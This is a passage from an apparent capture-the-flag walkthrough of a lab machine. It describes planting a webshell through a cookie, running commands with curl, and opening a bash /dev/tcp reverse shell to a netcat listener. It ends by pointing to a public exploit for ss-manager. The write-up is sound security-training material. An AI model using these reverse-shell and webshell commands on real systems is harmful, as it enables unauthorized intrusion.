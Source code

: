 In the **Repeater** tab, we paste the resulting string in base64 as the cookie value, then click **Send**, this webshell listens on port 443 waiting for incoming commands via cmd parameter.

![](/assets/images/templeofdoom/screenshot-7.png)

Using curl we can run commands through the cmd parameter.

```bash
root@kali:~$ curl http://192.168.179.177:443?cmd=id 
uid=1001(nodeadmin) gid=1001(nodeadmin) groups=1001(nodeadmin)
```

Then to get a reverse shell we need to set up a netcat listener in this case on port 443 and then execute the following curl request.

```bash
root@kali:~$ curl http://192.168.179.177:443?cmd=$(urlencode 'bash -c "bash -i >& /dev/tcp/192.168.179.1/443 0>&1"')
```

We have a reverse shell with nodeadmin user privileges.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.177] 38956
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
[nodeadmin@localhost ~]$ python -c "import pty;pty.spawn('/bin/bash')"
python -c "import pty;pty.spawn('/bin/bash')"
[nodeadmin@localhost ~]$
```

By listing the procesess **ss-manager** is running as user fireman, googling I found that it is a controller for multi-user management and traffic statistics, also this version is vulnerable to command execution, the exploit can be downloaded [here](https://www.exploit-db.com/exploits/43006).
